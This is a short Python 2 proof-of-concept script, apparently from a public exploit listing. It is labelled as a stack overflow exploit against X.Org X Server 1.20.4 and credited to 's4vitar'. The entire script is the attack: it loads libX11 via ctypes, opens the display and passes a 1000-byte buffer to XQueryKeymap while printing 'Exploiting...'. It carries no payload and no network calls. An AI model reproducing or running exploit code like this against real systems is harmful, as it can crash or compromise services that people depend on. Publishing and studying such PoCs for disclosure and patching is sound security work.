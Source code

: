 POC
---

    #!/usr/bin/python
    #coding: utf-8

    # ************************************************************************
    # *                Author: Marcelo Vázquez (aka s4vitar)                 *
    # *      X.Org X Server 1.20.4 / X Protocol Version 11 (Stack Overflow)  *
    # ************************************************************************

    import sys, time
    import ctypes as ct

    from ctypes import cast
    from ctypes.util import find_library

    def access_violation(x11, current_display):
      keyboard = (ct.c_char * 1000)()
      x11.XQueryKeymap(current_display, keyboard)

    if __name__ == '__main__':

      print "\n[*] Loading x11...\n"
      time.sleep(2)

      x11 = ct.cdll.LoadLibrary(find_library("X11"))
      current_display = x11.XOpenDisplay(None)

      print "[*] Exploiting...\n"
      time.sleep(1)

      try:
        access_violation(x11, current_display)

      except:
        print "\nError...\n"
        sys.exit(1)